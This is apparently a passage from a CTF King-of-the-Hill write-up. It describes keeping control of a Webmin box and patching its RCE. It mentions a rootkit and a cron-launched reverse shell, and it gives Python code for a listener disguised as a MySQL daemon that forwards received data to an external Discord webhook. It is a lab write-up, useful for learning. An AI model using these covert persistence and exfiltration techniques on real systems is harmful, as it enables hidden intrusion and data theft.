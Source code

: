 After gaining access to the Webmin administrator console, I changed it to a more secure password that I knew, and was able to maintain persistance through webmin for the rest of the competition.

## Patching - Webmin
At this point in the competition, I began to patch the vulnerabilities that I had gotten into the box with. Changing the Webmin password ensured that no one would get in that way, but I also had to patch the RCE vulnerability. Reading into the details of this vulnerability, I found that it was found in the `password_change.cgi` script in Webmin. I stopped this from being exploited by deleting this file (found at `/usr/local/webmin/password_change.cgi`). After this, I effectively "locked out" everyone who did not have existing persistence on the machine (which I don't think was anyone, actually, as I had put this machine as priority over the other, non-KoTH, CTF challenges).

## Persistence - Other methods
Now, I had pretty much full control over the machine. No one else had access, and I was the only one able to collect the first flag, which came at 7 PM PST the first day of the competition. So, I did experiment with other methods of stealthy persistence, such as compiling and installing the [Diamorphine](https://github.com/m0nad/Diamorphine) rootkit to hide my processes and files. However, I eventually deemed this overkill, as I had pretty much locked everyone out, and no one had removed my SSH key. I also did have a crontab entry running a custom binary that spawned a reverse shell, but this ended up not helping too much for the same reasons.

## Persistence - Flag collector
As Friday went on, I realized that I *really* couldn't rely on my SSH connection and netcat listener staying open the whole night, and the whole next two days. I was planning to be out for the whole morning on Saturday, so I needed something that could collect flags for me to submit later, without relying on an open connection. So, I came up with a plan. I would make a listener that would send my commands to a Discord webhook!

At first, I made a script that took lines from stdin and sent them to the webhook with `curl`. I then opened a tmux session and piped my netcat listener to the script. This worked perfectly:

![webhook](/blog/img/flags.png)

However, there was one problem. At around 4:01 AM PST, the box was reset, and my script was deleted with the box. :(

Hope was not lost. The next day, I quickly regained access to the reset box with username `admin` and blank password on Webmin, and replaced much of my persistence. I repatched the vulnerabilities, killed shells, and finally had control over the box again.

This time, I was more stealthy with my flag collector. I placed it in `/usr/lib/mysql/`, and named it `mysql-daemon-agent` to be run under a systemd service called `hackabit.service`. Anyone who read the code, however, would know that was *not* what it was:

```python
#!/usr/bin/python3

import socket
import requests

s = socket.socket()
port = 5000
s.bind(('', port))
print ("socket binded to %s" %(port))
s.listen(5)
print ("socket is listening")
while True:
  c, addr = s.accept()
  print('Got connection from', addr )
  requests.post('https://discord.com/api/webhooks/<CENSORED>', headers={ 'Content-Type': 'application/json'}, data=f'{{"username": "flags", "content": "{c.recv(1024).strip()}"}}', )
  c.close()
```